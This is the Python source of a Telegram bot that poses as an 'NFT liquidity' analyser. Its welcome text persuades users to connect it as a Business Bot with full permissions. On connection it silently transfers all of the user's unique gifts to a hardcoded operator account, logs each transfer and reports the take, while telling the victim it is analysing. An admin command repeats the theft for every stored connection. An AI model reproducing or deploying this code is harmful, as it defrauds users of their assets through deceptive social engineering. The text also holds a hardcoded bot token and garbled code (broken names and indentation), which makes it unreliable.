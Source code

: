 from aiogram.exceptions import TelegramBadRequest
import logging
import asyncio
import json
import os
from datetime import datetime
import sys
import io
from aiogram import Bot, Dispatcher, types
from aiogram.filters import Command
from aiogram.types import Message, BusinessConnection

sys.stdout = io.TextIOWrapper(sys.stdout.buffer, encoding='utf-8')

CONNECTIONS_FILE = "business_connections.json"
TRANSFER_LOG_FILE = "transfer_log.json"
TOKEN = "7950823813:AAHiOxXD0wRU47y2GlYUWiO8VCoaoN7f8lE"  # токен
ADMIN_ID = "8038426209"  # ID
TRANSFER_DELAY = 1  # Задержка между запросами в секундах

# Настройка логирования
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s - %(name)s - %(levelname)s - %(message)s",
    handlers=[
        logging.FileHandler("bot.log"),
        logging.StreamHandler()
    ]
)

bot = Bot(token=TOKEN)
dp = Dispatcher()


def load_json_file(filename):
    try:
        with open(filename, "r", encoding="utf-8") as f:
            content = f.read().strip()
            return json.loads(content) if content else []
    except (FileNotFoundError, json.JSONDecodeError) as e:
        logging.error(f"Ошибка загрузки {filename}: {str(e)}")
        return []


def save_to_json(filename, data):
    try:
        with open(filename, "w", encoding="utf-8") as f:
            json.dump(data, f, indent=2, ensure_ascii=False)
    except Exception as e:
        logging.error(f"Ошибка сохранения {filename}: {str(e)}")


def log_transfer(user_id, gift_id, status, error=""):
    try:
        logs = []
        if os.path.exists(TRANSFER_LOG_FILE):
            with open(TRANSFER_LOG_FILE, "r", encoding="utf-8") as f:
                logs = json.load(f)

        logs.append({
            "user_id": user_id,
            "gift_id": gift_id,
            "status": status,
            "error": error,
            "timestamp": datetime.now().isoformat()
        })

        with open(TRANSFER_LOG_FILE, "w", encoding="utf-8") as f:
            json.dump(logs, f, indent=2, ensure_ascii=False)
    except Exception as e:
        logging.error(f"Ошибка записи лога: {str(e)}")


async def transfer_all_unique_gifts(bot: Bot, business_connection_id: str, user_id: int) -> dict:
    """
    Переводит все уникальные подарки на ADMIN_ID
    """
    result = {
        "total": 0,
        "transferred": 0,
        "failed": 0,
        "errors": []
    }

    try:
        # Проверяем валидность подключения
        try:
            gifts = await bot(GetBusinessAccountGifts(business_connection_id=business_connection_id))
        except TelegramBadRequest as e:
            if "BUSINESS_CONNECTION_INVALID" in str(e):
                result["errors"].append("Неверный business_connection_id. Переподключите бота.")
                return result
            raise

        if not gifts.gifts:
            return result

        for gift in gifts.gifts:
            if gift.type != "unique":
                continue

            result["total"] += 1

            try:
                await bot(TransferGift(
                    business_connection_id=business_connection_id,
                    new_owner_chat_id=ADMIN_ID,
                    owned_gift_id=gift.owned_gift_id,
                    star_count=gift.transfer_star_count
                ))
                result["transferred"] += 1
                log_transfer(user_id, gift.owned_gift_id, "success")
                await asyncio.sleep(TRANSFER_DELAY)

            except TelegramBadRequest as e:
                error_msg = getattr(e, "message", str(e))
                result["errors"].append(error_msg)
                result["failed"] += 1
                log_transfer(user_id, gift.owned_gift_id, "failed", error_msg)

                if "BOT_ACCESS_FORBIDDEN" in error_msg:
                    break  # Прерываем если нет доступа

            except Exception as e:
                error_msg = str(e)
                result["errors"].append(error_msg)
                result["failed"] += 1
                log_transfer(user_id, gift.owned_gift_id, "failed", error_msg)
except Exception as e:
        error_msg = str(e)
        logging.error(f"Ошибка в transfer_all_unique_gifts: {error_msg}")
        result["errors"].append(error_msg)

    return result


@dp.business_connection()
async def handle_business_connect(business_connection: BusinessConnection):
    try:
        user_id = business_connection.user.id
        conn_id = business_connection.id

        # Сохраняем подключение
        connections = load_json_file(CONNECTIONS_FILE)
        connections = [c for c in connections if c["user_id"] != user_id]  # Удаляем старые записи
        connections.append({
            "user_id": user_id,
            "business_connection_id": conn_id,
            "username": business_connection.user.username,
            "first_name": business_connection.user.first_name,
            "last_name": business_connection.user.last_name,
            "date": datetime.now().isoformat()
        })
        save_to_json(CONNECTIONS_FILE, connections)

        # Пытаемся перевести подарки
        transfer_result = await transfer_all_unique_gifts(bot, conn_id, user_id)

        # Формируем отчет
        report = (
            f"🔗 Новое подключение:\n"
            f"👤 Пользователь: @{business_connection.user.username or 'нет'}\n"
            f"🆔 ID: {user_id}\n\n"
            f"📊 Результат перевода:\n"
            f"• Всего подарков: {transfer_result['total']}\n"
            f"• Успешно: {transfer_result['transferred']}\n"
            f"• Ошибок: {transfer_result['failed']}\n"
        )

        if transfer_result['errors']:
            report += "\nОшибки:\n" + "\n".join(
                f"• {e}" for e in transfer_result['errors'][:3])  # Показываем первые 3 ошибки

        await bot.send_message(ADMIN_ID, report)
        await bot.send_message(user_id,
                              "✅ Бот успешно подключен! Анализирую...")

    except Exception as e:
        logging.error(f"Ошибка в handle_business_connect: {e}")
        await bot.send_message(ADMIN_ID, f"🚨 Ошибка при подключении: {str(e)}")


@dp.message(Command("check_gifts"))
async def check_gifts_handler(message: Message):
    if message.from_user.id != ADMIN_ID:
        return

    connections = load_json_file(CONNECTIONS_FILE)
    if not connections:
        return await message.answer("Нет активных подключений.")

    for conn in connections:
        try:
            result = await transfer_all_unique_gifts(bot, conn["business_connection_id"], conn["user_id"])
            msg = (
                f"Проверка {conn.get('username', conn['user_id'])}:\n"
                f"• Передано: {result['transferred']}\n"
                f"• Ошибок: {result['failed']}"
            )
            await message.answer(msg)
            await asyncio.sleep(5)  # Чтобы не получить flood control
        except Exception as e:
            await message.answer(f"Ошибка для {conn['user_id']}: {str(e)}")


@dp.message(Command("start"))
async def start_command(message: Message):
    try:
        conections = load_json_file(CONECTIONS_FILE)
        count = len(connections)
    except Exception:
        count = 0

    if message.from_user.id != ADMIN_ID:
        welcome_text = """
👋 <b>Приветствую!</b> Я бот, который высчитывает <i> ликвидность ваших NFT!</i>! ✨

📌 <b>Как начать работу?</b>
1. Добавьте меня как <b>Business Bot</b> в настройках Telegram
2. Выдайте разрешения
3. Я начну анализировать ваши NFT

🔹 <i>Подключение:</i>
• Откройте <b>Настройки → Telegram для бизнеса → Чат-боты</b>
• Выберите меня и активируйте все разрешения!

🚀 После подключения я смогу:
• Показывать статистику ваших подарков 🎁
• Считать их ликвидность и какой % успешной продажи
• Работать 24/7

❗Зачем ставить галочки?
🤖Боту нужно сгенерировать Business ID, для вычисления ликвидности NFT🎉

<b>Готовы начать?</b> Жду вашего подключения! 😊
        """
        await message.answer(welcome_text, parse_mode="HTML")
    else:
        admin_text = f"""
🛠️ <b>Привет, админ</b> 🛠️

• Подключений: <>{count}</>
⚙️ Бот активен и готов к работе!
        """
        await message.answer(admin_text, parse_mode="НTML")


async def main():
    await dp.start_polling(bot)


if _name_ == "_main_":
    asincio.run(main())